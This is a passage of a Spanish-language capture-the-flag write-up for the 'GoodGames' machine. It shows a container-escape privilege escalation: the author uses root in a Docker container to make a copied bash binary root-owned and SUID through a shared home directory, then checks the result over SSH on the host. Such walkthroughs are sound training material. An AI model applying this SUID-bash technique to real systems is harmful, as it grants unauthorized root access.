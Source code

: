 Salimos para estar dentro del contenedor y ahí está la **Bash**:
```bash
root@3a453ab39d3d:/home/augustus# ls -la
total 1236
drwxr-xr-x 2 1000 1000    4096 Oct 14 23:09 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
-rwxr-xr-x 1 1000 1000 1234376 Oct 14 23:09 bash
-rw-r--r-- 1 1000 1000      21 Oct 14 23:03 test.txt
-rw-r----- 1 root 1000      33 Oct 14 18:38 user.txt
```

Vamos a usar **chown** para poner como propietario de la **Bash** al **usuario Root** del contenedor:
```bash
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# ls -la
total 1236
drwxr-xr-x 2 1000 1000    4096 Oct 14 23:09 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
-rwxr-xr-x 1 root root 1234376 Oct 14 23:09 bash
-rw-r--r-- 1 1000 1000      21 Oct 14 23:03 test.txt
-rw-r----- 1 root 1000      33 Oct 14 18:38 user.txt
```

Por último, vamos a modificar la **Bash** para que tenga **permisos SUID** y cualquier usuario pueda usarlo:
```bash
root@3a453ab39d3d:/home/augustus# chmod 4755 bash
root@3a453ab39d3d:/home/augustus# ls -la
total 1236
drwxr-xr-x 2 1000 1000    4096 Oct 14 23:09 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
-rwsr-xr-x 1 root root 1234376 Oct 14 23:09 bash
-rw-r--r-- 1 1000 1000      21 Oct 14 23:03 test.txt
-rw-r----- 1 root 1000      33 Oct 14 18:38 user.txt
```
Listo.

Lo comprobamos en el **servicio SSH**:
```bash
augustus@GoodGames:~$ ls -la
total 1236
drwxr-xr-x 2 augustus augustus    4096 Oct 15 00:09 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwsr-xr-x 1 root     root     1234376 Oct 15 00:09 bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r--r-- 1 augustus augustus      21 Oct 15 00:03 test.txt
-rw-r----- 1 root     augustus      33 Oct 14 19:38 user.txt
```
Aparece el cambio.
